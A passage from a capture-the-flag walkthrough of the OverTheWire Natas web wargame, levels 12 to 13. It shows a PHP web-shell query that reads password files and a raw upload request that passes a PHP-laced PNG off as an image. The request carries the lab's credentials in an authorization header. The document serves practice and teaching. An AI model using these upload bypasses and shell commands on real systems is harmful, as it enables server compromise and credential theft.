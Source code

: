 Then, using BurpSuite, we can just pass it something like the following string:

`/upload/q0l9fy3cvu.php?system=cat+/etc/natas_webpass/natas13` 

## Level 13

OK, so this is the same as the previous one, except this time the "developer" has put a check in to make sure we're uploading an image file... 

I'm thinking we're going to have to modify that "MAX_FILE_SIZE" parameter because finding an image that is actually less than 1kb is quite difficult. (Edit: didn't bother with this in the end, we just made the payload fit the limit)

```
POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/index.php
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------15378711974067201491555851762
Content-Length: 4111

-----------------------------15378711974067201491555851762
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------15378711974067201491555851762
Content-Disposition: form-data; name="filename"

obu30xz3fl.jpg
-----------------------------15378711974067201491555851762
Content-Disposition: form-data; name="uploadedfile"; filename="index.png"
Content-Type: image/png

PNG

```


So for this one, we just cut off the end of the image, and replaced it with the same PHP command from the last challenge. We also had to change the `Content-Disposition: form-data; name="filename"` to something with a `.php` extension.

`4kz8xq6r1i.php?system=cat+/etc/natas_webpass/natas14`

## Level 14

SQL Injection
